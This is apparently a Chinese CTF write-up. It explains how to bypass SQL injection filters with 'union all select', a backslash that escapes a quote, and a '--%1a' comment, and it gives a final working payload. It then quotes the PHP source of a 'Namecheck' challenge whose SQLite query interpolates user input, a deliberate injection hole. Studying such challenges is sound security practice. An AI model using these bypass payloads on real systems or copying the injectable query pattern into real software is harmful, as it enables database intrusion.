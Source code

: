 第一反应union-》union select被过滤-》用union all select 绕过

单引号被过滤-》没法闭合-》注释符#和--加任意字符也被过滤-》用--%1a注释

用正则过滤反斜杠正确姿势是四个反斜杠(第一个斜杠转义了第二个，第三个转义了第四个，最终就是 “\\”，正则表达式里转互相转义一下就是 “\”了)-》可以用反斜杠转义掉$id后面的单引号-》

```
SELECT * FROM `antisqli` WHERE `id`='\' AND `pw`=md5('{$pw}');
```

```
\' AND `pw`=md5( //这一整个变成字符串里的了
```

最后试出三列

`id=\&pw=union all select 31337,31337,31337 from antisqli --%1a`

###  Namecheck

What's your name?

```
<?php
    error_reporting(0);
    require __DIR__.'/lib.php'; 

    if(isset($_GET['name'])){

        $name = $_GET['name'];
        if(preg_match("/admin|--|;|\(\)|\/\*|\\0/i", $name)){
            echo 'Not allowed input';
            goto quit;
        }

        $sql = new SQLite3('name_check.db', SQLITE3_OPEN_READWRITE);
        $res = $sql->query("
            SELECT 
            MAX('0','1','{$name}') LIKE 'a%',        //以a开头
            INSTR('{$name}','d')>0,                  //包含d
            MIN('{$name}','b','c') LIKE '__m__',     //中间为m
            SUBSTR('{$name}',-2)='in'                //最后两个是in
        ;");
        if($res === false){
            echo 'Database error';
            goto quit;
        }

        $row = $res->fetchArray(SQLITE3_NUM);
        if(
            $row[0] + $row[1] + $row[2] + $row[3] !== 4 ||
            array_sum($row) !== 4                    //四条都满足
        ){
            echo 'Auth failed';
            goto quit;
        }

        echo $flag;

    quit:
        echo '<hr>';
    }

    highlight_file(__FILE__);
```
